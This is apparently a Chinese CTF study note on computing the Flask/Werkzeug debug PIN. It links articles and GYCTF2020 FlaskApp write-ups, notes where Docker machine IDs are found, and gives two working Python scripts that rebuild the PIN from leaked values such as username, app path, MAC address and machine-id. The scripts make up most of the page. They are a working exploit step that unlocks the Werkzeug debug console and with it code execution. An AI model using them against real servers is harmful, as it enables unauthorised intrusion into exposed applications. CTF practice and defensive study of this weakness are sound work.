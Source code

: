 # 文章
[关于ctf中flask算pin总结_丨Arcueid丨的博客-CSDN博客](https://blog.csdn.net/qq_35782055/article/details/129126825) (最新版)<br />[Flask debug pin安全问题 - 先知社区](https://xz.aliyun.com/t/2553#toc-1)<br />[Flask debug pin安全问题 - 先知社区.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1688534177954-3bc10400-d2d5-45f1-a439-8f3510719393.pdf)
# 例题WP
[[GYCTF2020]FlaskApp](https://mayi077.gitee.io/2020/04/17/GYCTF2020-FlaskApp/)<br />[记一次Flask模板注入学习 [GYCTF2020]FlaskApp - seven昔年 - 博客园](https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html)
# docker环境下的machine-id
 假如是Docker机, 那么为 `/proc/self/cgroup` docker行
# 算PIN码脚本
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'kingkk',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/kingkk/.local/lib/python3.5/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '52242498922',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '19949f18ce36422da1402b3e3fe53008'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
```plsql
import hashlib
from itertools import chain
probably_public_bits = [
    'root',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '16415777110439',
    '96cec10d3d9307792745ec3b85c89620docker-9dfaf327e52efc8b58e760d930ecd6142e2e23db948a19156c9425339113a588.scope'# get_machine_id(), /etc/machine-id  /proc/sys/kernel/random/boot_id

]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)

```
